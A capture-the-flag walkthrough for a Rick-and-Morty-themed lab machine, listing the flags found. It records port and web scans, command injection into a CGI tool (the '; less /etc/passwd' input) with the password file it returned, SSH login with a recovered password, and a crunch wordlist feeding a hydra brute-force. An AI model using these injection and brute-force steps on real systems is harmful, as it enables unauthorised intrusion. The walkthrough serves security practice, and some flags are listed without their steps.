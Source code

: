 Using nmap on the ip using SYN and version scan.

                └─$ sudo nmap -sV -sS -p- 192.168.42.92
                Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 15:28 IST
                Nmap scan report for 192.168.42.92
                Host is up (0.00050s latency).
                Not shown: 65528 closed tcp ports (reset)
                PORT      STATE SERVICE VERSION
                21/tcp    open  ftp     vsftpd 3.0.3
                22/tcp    open  ssh?
                80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
                9090/tcp  open  http    Cockpit web service 161 or earlier
                13337/tcp open  unknown
                22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
                60000/tcp open  unknown
                3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port22-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(NULL
                SF:,42,"Welcome\x20to\x20Ubuntu\x2014\.04\.5\x20LTS\x20\(GNU/Linux\x204\.4
                SF:\.0-31-generic\x20x86_64\)\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port13337-TCP:V=7.93%I=7%D=5/17%Time=6464A558%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,29,"FLAG:{TheyFoundMyBackDoorMorty}-10Points\n");
                ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
                SF-Port60000-TCP:V=7.93%I=7%D=5/17%Time=6464A55E%P=x86_64-pc-linux-gnu%r(N
                SF:ULL,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20reverse\x20shell\.\.
                SF:\.\n#\x20")%r(ibm-db2,2F,"Welcome\x20to\x20Ricks\x20half\x20baked\x20re
                SF:verse\x20shell\.\.\.\n#\x20");
                MAC Address: 08:00:27:B9:12:62 (Oracle VirtualBox virtual NIC)
                Device type: general purpose
                Running: Linux 3.X|4.X
                OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
                OS details: Linux 3.2 - 4.9
                Network Distance: 1 hop
                Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

                OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
                Nmap done: 1 IP address (1 host up) scanned in 43.42 seconds


Flag from fingerprint:

### 1.FLAG:{TheyFoundMyBackDoorMorty}


http interface flag 9090 flag:

### 2.FLAG {THERE IS NO ZEUS, IN YOUR FACE!}

ftp flag Users flag:
      
### 3.FLAG{Whoa this is unexpected}

Reverse shell using nc command in the port 60000
command:

    $nc <ip> 60000

reverse shell flag:
      
### 4.FLAG{Flip the pickle Morty!} - 10 Points


Busting the directories in the Morty's website using nikto
result:

      $ nikto -host http://192.168.42.8/ 
      - Nikto v2.5.0
      ---------------------------------------------------------------------------
      + Target IP:          192.168.42.8
      + Target Hostname:    192.168.42.8
      + Target Port:        80
      + Start Time:         2023-05-18 08:35:41 (GMT5.5)
      ---------------------------------------------------------------------------
      + Server: Apache/2.4.27 (Fedora)
      + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
      + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
      + Apache/2.4.27 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
      + OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE .
      + /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
      + /passwords/: Directory indexing found.
      + /passwords/: This might be interesting.
      + /icons/: Directory indexing found.
      + /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
      + 8908 requests: 0 error(s) and 9 item(s) reported on remote host
      + End Time:           2023-05-18 08:35:48 (GMT5.5) (7 seconds)
      ---------------------------------------------------------------------------
      + 1 host(s) tested

Opening the /passwords/ dir in the ip has a file FLAG.txt 
      
### 5.FLAG{Yeah d- just don't do it.} 

The directory also has a html file called passwords.html where it has a password commented on its html code
password: winter

Using robots.txt in the ip results:

      They're Robots Morty! It's ok to shoot them! They're just Robots!

      /cgi-bin/root_shell.cgi
      /cgi-bin/tracertool.cgi
      /cgi-bin/*
/cgi-bin/tracertool.cgi contains a command excecutable shell where we use the command:
      
      ; less /etc/passwd
to view the contents of passwd file which has the details of the usernames

Output:

      root:x:0:0:root:/root:/bin/bash
      bin:x:1:1:bin:/bin:/sbin/nologin
      daemon:x:2:2:daemon:/sbin:/sbin/nologin
      adm:x:3:4:adm:/var/adm:/sbin/nologin
      lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
      sync:x:5:0:sync:/sbin:/bin/sync
      shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
      halt:x:7:0:halt:/sbin:/sbin/halt
      mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
      operator:x:11:0:operator:/root:/sbin/nologin
      games:x:12:100:games:/usr/games:/sbin/nologin
      ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
      nobody:x:99:99:Nobody:/:/sbin/nologin
      systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
      systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
      systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
      systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
      dbus:x:81:81:System message bus:/:/sbin/nologin
      polkitd:x:997:996:User for polkitd:/:/sbin/nologin
      sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
      rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
      abrt:x:173:173::/etc/abrt:/sbin/nologin
      cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
      rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
      chrony:x:995:993::/var/lib/chrony:/sbin/nologin
      tcpdump:x:72:72::/:/sbin/nologin
      RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
      Morty:x:1001:1001::/home/Morty:/bin/bash
      Summer:x:1002:1002::/home/Summer:/bin/bash
      apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
We can try the three usernames and the password winter with ssh
command:
  
      $ssh Summer@192.168.42.8 -p 22222

uname: Summer   pass: winter   satisfied!
Inside the Summer dir we have a FLAG.txt 

### 6.FLAG{Get off the high road Summer!} 



pass:Meeseek
zip:
### 7.FLAG: {131333}


safe flag:
### 8.FLAG{And Awwwaaaaayyyy we Go!}


safe hint:

      Ricks password hints:
       (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
      Follow these clues, in order


      1 uppercase character
      1 digit
      One of the words in my old bands name.  ---> Flesh Curtains

crunch the password list
crunch 7 7 ,%Flesh -O >>yourfile.txt
crunch 10 10 ,%Curtains -O>>Yourfile.txt


bruteforce using hydra
$ hydra -l RickSanchez -P yourfile.txt 192.168.42.8 ssh  -s  22222



flag root access:
### 9.FLAG: {Ionic Defibrillator} - 30 points



